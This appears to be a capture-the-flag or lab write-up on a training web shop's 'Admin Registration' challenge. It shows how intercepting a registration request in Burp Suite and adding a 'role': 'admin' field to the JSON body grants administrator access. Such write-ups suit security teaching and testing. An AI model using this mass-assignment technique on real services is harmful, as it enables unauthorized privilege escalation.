

# Admin Registration

## Type

Improper Input Validation

## Description

Register as a user with administrator privileges.

## What do I need?

- user modal
- user registration

## My Way

- I go to "**User Registration**" in **/register**


- type credentials for dummy


- I click on register

- Now I go to the **HTTP history** in **proxy**
- I see my **POST** to **/api/Users**

- I can see in the Response I get the role **customers**

- Can I set role?

- I create another user

- Now I activate **burpsuite interceptor** in tab **proxy** and click on register


- And I set the **role** in **my Request**:

    ```json
    {
        "email": "admin@admin.de",
        "password": "123456",
        "passwordRepeat": "123456",
        "role": "admin",
        "securityQuestion": {
            "id": 2,
            "question": "Mother's maiden name?"
            "createdAt": "2024-08-09T11:26:48.973Z"
            "updatedAt": "2024-08-09T11:26:48.973Z"
        },
        "securityAnswer": "sfdfdsggfds"
    }
    ```

- I click on forward and got to history


- Now I check if I really have admin rights by going to **/administration**


- **It worked!**
